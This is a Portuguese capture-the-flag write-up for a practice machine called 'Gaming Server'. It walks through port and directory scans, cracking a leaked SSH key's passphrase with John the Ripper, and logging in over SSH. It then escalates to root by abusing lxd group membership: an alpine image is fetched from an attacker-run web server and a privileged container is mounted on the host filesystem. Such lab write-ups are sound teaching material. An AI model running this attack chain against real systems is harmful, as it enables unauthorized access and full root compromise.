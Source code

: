 # Gaming Server 

* ### Scan de portas - Verificando quais portas estão abertas.
```bash
rustscan -a 10.10.115.2
```
![image](https://github.com/lufffe/Writeups/assets/90646635/16c9a231-b3e7-4b5d-b27f-b2e986b9c046)

![image](https://github.com/lufffe/Writeups/assets/90646635/dcd7bb35-025d-452f-b052-dd6ee24968ab)

* ### Verificando o que está rodando nas portas encontradas.
```bash
nmap -A -p 22,80 10.10.115.2
```
![image](https://github.com/lufffe/Writeups/assets/90646635/4eac808a-9639-4ea3-b487-c903167f82e4)

* ### Verificando o Http verificamos que aparece um "John".
![image](https://github.com/lufffe/Writeups/assets/90646635/065e8460-d4a8-4dd7-ac64-fef2f56f97ad)

* ### Scan de Arquivos e Diretórios.
```bash
gobuster dir -u http://10.10.115.2 -w directory-list-2.3-small.txt -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/d8e7747a-c897-4919-86c6-dd64bf7045d1)

* ### Chave Id_Rsa.
![image](https://github.com/lufffe/Writeups/assets/90646635/54168859-3167-4a30-b2b4-717027503095)

* ### Já em Uploads tem esses arquivoc (dict uma wordlist) e o outro um texto.
![image](https://github.com/lufffe/Writeups/assets/90646635/f13e1f80-c7dd-401c-a522-a3d01b07090f)

* ### Primeiro pegamos o hash e depois quebramos essa hash com a wordlist que conseguimos.
```bash
ssh2john secretKey > hash.txt
```
```bash
john hash.txt --wordlist=dict.lst
```
![image](https://github.com/lufffe/Writeups/assets/90646635/09c69cef-01ad-4afb-a4a7-bea75dbeff76)

* ### Dando permissão a chave id_rsa.
```bash
chmod 600 secretKey 
```

* ### Acessando via SSH.
```bash
ssh -i secretKey john@10.10.115.2
```
![image](https://github.com/lufffe/Writeups/assets/90646635/57362ab4-e542-48e0-8c0d-eb577b1d7371)

* ### Flag Usuário.
```bash
cat user.txt
```

* ### Executando o comando id, descobrindo o grupo(lxd).
```bash
id
```
![image](https://github.com/lufffe/Writeups/assets/90646635/ce7dce2f-0cc2-4cea-b380-c36e49fcc2c4)

* ### Depois de um tempo pesquisando encontrei esse repositório do git.
```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
```

* ### Sobe o servidor em Python para transferir o arquivo.
```bash
python -m http.server
```

* ### Transfere para a maquina.
```bash
wget http:/IP:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

* ### Executa esses comandos.
* lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
* lxc init myimage ignite -c security.privileged=true
* lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
* lxc start ignite
* lxc exec ignite /bin/sh
![image](https://github.com/lufffe/Writeups/assets/90646635/3f19636f-434d-48e7-885a-cec30c3765ea)

* ### Flag Root.
```bash
cat /mnt/root/root/root.txt
```
